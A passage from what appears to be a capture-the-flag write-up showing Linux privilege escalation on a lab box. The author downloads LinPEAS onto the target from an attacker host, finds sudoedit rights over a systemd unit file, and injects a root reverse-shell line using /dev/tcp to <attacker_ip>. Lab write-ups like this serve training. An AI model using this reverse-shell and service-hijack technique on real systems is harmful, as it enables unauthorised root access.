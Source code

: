 So it looks like we need to get root access to get our well-deserved 2500$.
Since we have no information on possible PE vectors we download LinPEAS from our machine to the target's.

```bash
rxfa@attacker:~/Desktop/CTFs$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
rxfa@attacker:~/Desktop/CTFs$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)...
```

```bash
server-admin@duckyinc$:~$cd /tmp
server-admin@duckyinc$:/tmp$ wget http://<attacker_ip>:8000/linpeas.sh
server-admin@duckyinc$:/tmp$ chmod 777 ./linpeas.sh & ./linpeas.sh
```

Thankfully, LinPEAS is able to point us in the right direction and points to us that we probably have a PE vector in the duckyinc service by using the sudoedit command

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for server-admin on duckyinc:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
(root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```

So we know that duckyinc is a systemd service configuration file that manages a Gunicorn instance to serve Ducky inc web application. And we know that ~~fortunately~~ we edit the file as we please, so the play here is to change it so we inject a reverse shell payload in the service and get root access to the machine in that way.

This is how we edit the file:

```bash
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

ExecStartPost=/bin/bash -c "/bin/sh -i >& /dev/tcp/<attacker_ip>/<1234> 0>&1"

[Install]
WantedBy=multi-user.target
```
